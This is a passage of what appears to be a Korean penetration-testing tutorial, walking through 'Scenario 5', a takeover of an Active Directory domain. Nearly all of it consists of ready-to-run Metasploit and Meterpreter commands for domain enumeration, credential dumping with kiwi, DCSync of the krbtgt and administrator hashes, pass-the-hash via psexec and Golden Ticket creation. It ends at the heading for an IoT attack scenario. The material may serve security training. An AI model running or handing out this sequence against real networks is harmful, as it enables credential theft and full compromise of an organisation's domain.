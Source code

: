 ## 시나리오 5: Active Directory 환경 공격

### 상황: 도메인 컨트롤러 장악

#### 1단계: 도메인 정찰

```bash
# 첫 번째 시스템 장악 후
meterpreter > run post/windows/gather/enum_domain

# 도메인 컨트롤러 찾기
meterpreter > run post/windows/gather/enum_domain_controllers

# 도메인 사용자 열거
meterpreter > run post/windows/gather/enum_domain_users
```

#### 2단계: 크리덴셜 덤핑 및 해시 수집

```bash
# 로컬 크리덴셜 덤프
meterpreter > load kiwi
meterpreter > creds_all

# 도메인 해시 수집 (Golden Ticket 생성용)
meterpreter > dcsync_ntlm krbtgt
```

#### 3단계: Pass-the-Hash 공격

```bash
# 획득한 해시로 다른 시스템 접근
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 192.168.1.101
msf6 exploit(windows/smb/psexec) > set SMBUser administrator
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf6 exploit(windows/smb/psexec) > exploit
```

#### 4단계: 도메인 컨트롤러 장악

```bash
# DCSync 공격으로 모든 해시 덤프
meterpreter > dcsync_ntlm administrator
meterpreter > dcsync_ntlm krbtgt

# Golden Ticket 생성
meterpreter > golden_ticket_create -d domain.com -u administrator -s S-1-5-21-xxx -k aes256_key
```

## 시나리오 6: IoT 디바이스 공격
